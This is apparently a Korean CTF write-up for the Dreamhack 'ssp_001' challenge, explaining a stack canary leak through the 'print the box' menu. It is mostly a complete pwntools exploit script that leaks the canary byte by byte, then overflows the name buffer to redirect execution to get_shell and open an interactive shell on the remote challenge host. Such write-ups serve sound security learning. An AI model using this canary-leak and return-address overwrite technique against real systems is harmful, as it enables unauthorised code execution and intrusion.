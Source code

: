### Exploit

Menu 상의 **print the box**를 이용해 **canary를 한 byte씩 읽어낼 수 있다**. 이를 통해 canary를 획득한다. 이후 payload를 작성해 exploit한다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 14769)
#p = process("./ssp_001")
e = ELF("./ssp_001")

get_shell = e.symbols["get_shell"]

p.recvuntil("[E]xit")
p.sendline("P")
p.recvuntil("index : ")
p.sendline("131")
p.recvuntil(" is : ")
cnry = p.recvn(2)

p.recvuntil("[E]xit")
p.sendline("P")
p.recvuntil("index : ")
p.sendline("130")
p.recvuntil(" is : ")
cnry += p.recvn(2)

p.recvuntil("[E]xit")
p.sendline("P")
p.recvuntil("index : ")
p.sendline("129")
p.recvuntil(" is : ")
cnry += p.recvn(2)

cnry += b'00'

payload = b"A"*0x40             # |    name    | <= "A" * 0x40
payload += p32(int(cnry, 16))   # |   Canary   | <= Canary
payload += b"A"*0x8             # | SFP & dummy| <= "A" * 0x8
payload += p32(get_shell)       # | Return addr| <= &get_shell

p.recvuntil("[E]xit")
p.sendline("E")
p.recvuntil("Name Size : ")
p.sendline(str(len(payload)))
p.recvuntil("Name : ")

p.sendline(payload)

p.interactive()
```

`e = ELF("./ssp_001")` → `get_shell = e.symbols["get_shell"]` 를 통해 gdb를 사용하지 않고서도 symbol의 주소를 알아낼 수 있다.